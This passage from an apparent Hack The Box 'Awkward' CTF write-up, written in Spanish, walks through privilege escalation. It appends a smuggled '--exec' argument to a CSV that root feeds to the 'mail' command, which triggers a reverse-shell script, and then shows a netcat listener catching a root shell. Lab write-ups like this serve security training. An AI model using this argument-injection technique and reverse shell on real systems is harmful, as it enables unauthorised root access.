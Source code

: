 ## Escalada de Privilegios

En la ruta `/var/www/private` podemos ver algo que parece ser argumentos de un mail

```shell
www-data@awkward:~/private$ cat leave_requests.csv 
Leave Request Database,,,,
,,,,
HR System Username,Reason,Start Date,End Date,Approved
bean.hill,Taking a holiday in Japan,23/07/2022,29/07/2022,Yes
christine.wool,Need a break from Jackson,14/03/2022,21/03/2022,Yes
jackson.lightheart,Great uncle's goldfish funeral + ceremony,10/05/2022,10/06/2022,No
jackson.lightheart,Vegemite eating competition,12/12/2022,22/12/2022,No
christopher.jones,Donating blood,19/06/2022,23/06/2022,Yes
christopher.jones,Taking a holiday in Japan with Bean,29/07/2022,6/08/2022,Yes
bean.hill,Inevitable break from Chris after Japan,14/08/2022,29/08/2022,No
www-data@awkward:~/private$
```

Con [PSPY](https://github.com/DominicBreuker/pspy) podemos encontrar que el usuario `root` ejecuta alguno de ellos

```shell
CMD: UID=0    PID=7481   | mail -s Leave Request: bean.hill christine
```

[GTFOBins](https://gtfobins.github.io/gtfobins/mail/) nos da una vía de ejecutar scripts o binarios con el comando `mail`

Aprovechando el `reverse.sh` que tenemos en `/tmp` agregamos una línea que lo ejecute el archivo `mail`

```shell
www-data@awkward:~/private$ echo '" --exec="\!/tmp/rev.sh"' >> leave_requests.csv
www-data@awkward:~/private$
```

Después de unos segundos podemos ver como se ejecuta y nos llega la shell como `root`

```shell
❯ nc -nvlp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.185
root@awkward:~/scripts# id
uid=0(root) gid=0(root) groups=0(root)
root@awkward:~/scripts# hostname -I
10.10.11.185 dead:beef::250:56ff:feb9:8ab1 
root@awkward:~/scripts# cat /root/root.txt 
f23**************************679
root@awkward:~/scripts#
```


